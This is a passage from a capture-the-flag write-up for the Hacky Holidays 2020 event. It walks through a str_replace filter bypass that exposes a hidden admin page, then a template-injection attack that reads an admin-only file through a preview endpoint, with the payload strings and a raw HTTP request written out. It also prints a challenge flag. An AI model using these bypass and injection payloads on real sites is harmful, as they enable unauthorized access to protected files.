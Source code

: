 let's build secretadmin.php in a way that survives str_replace 

```
$ php -a
Interactive mode enabled

php > $page = preg_replace('/([^a-zA-Z0-9.])/','','secretsecretadmiadmin.phpn.phpadmin.phadmin.phpp');
php > $page = str_replace("admin.php","",$page);
php > $page = str_replace("secretadmin.php","",$page);
php > echo $page;
secretadmin.php
php > 
```
`secretsecretadmiadmin.phpn.phpadmin.phadmin.phpp` will do the job :)

now by browsing to https://hackyholidays.h1ctf.com/my-diary/?template=secretsecretadmiadmin.phpn.phpadmin.phadmin.phpp, we obtain the flag 
	
flag{18b130a7-3a79-4c70-b73b-7f23fa95d395}


----------------------------------------------------------------


## Day 7


Day7's app is hate-mail-generator located at https://hackyholidays.h1ctf.com/hate-mail-generator/
we could either create new campains or consult the already existing ones

we already have one campaign, https://hackyholidays.h1ctf.com/hate-mail-generator/91d45040151b681549d82d8065d43030 
from there we can learn about the templating syntax 
`{{template:cbdj3_grinch_header.html}}` seems to read and show the given file 
`{{name}}` prints variable called name


now back to make a new campain, we can't create any, but we can preview them 
https://hackyholidays.h1ctf.com/hate-mail-generator/new
by entering a non existing template file `{{template:blabla.html}}` file we get a message `Cannot find template file /templates/blabla.html`
so templates files are located at `/templates` directory, luckily directory listing is enabled https://hackyholidays.h1ctf.com/hate-mail-generator/templates
there's 3 files, we already know about those 2 files from the existing campaign `cbdj3_grinch_header.html` and `cbdj3_grinch_footer.html`
browsing any of the files directly returns 403

we want to read the 3rd template file `38dhs_admins_only_header.html `, lets try it with preview campaign function in the app

```HTTP
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
Content-Length: 151
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

preview_markup=%7B%7Btemplate%3A38dhs_admins_only_header.html+%7D%7D&preview_data=%7B%22name%22%3A%22Alice%22%2C%22email%22%3A%22alice%40test.com%22%7D


HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 21 Dec 2020 20:16:53 GMT
Content-Type: text/html; charset=UTF-8
```